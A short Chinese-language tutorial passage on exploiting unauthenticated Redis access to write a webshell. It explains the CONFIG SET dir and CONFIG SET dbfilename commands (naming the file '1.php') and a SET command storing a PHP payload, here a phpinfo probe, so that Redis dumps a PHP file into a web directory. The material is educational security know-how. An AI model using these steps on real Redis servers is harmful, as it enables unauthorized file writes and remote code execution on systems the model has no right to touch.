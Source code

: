 ![5](/medias/redis未授权访问控制漏洞/5.png)

写入webshell

补充一些redis指令（不区分大小写）：

**CONFIG SET** 是 **Redis** 的配置命令，用于动态修改 Redis 服务器的运行时配置，而**无需重新启动服务器**

语法：`CONFIG SET <配置项> <值>`

常用配置项：

- dir ：设置 Redis 保存数据文件的目录

```bash
CONFIG SET dir "/path/to/directory/"
```

- dbfilename ： 设置 Redis 保存数据时的文件名

```bash
CONFIG SET dbfilename "1.php"
```

**SET**：设置键值对，将用户提供的值与指定的键绑定，保存到 Redis 数据库中

语法：`SET <key> <value>`

```bash
set shell "<?php phpinfo();?>"
```
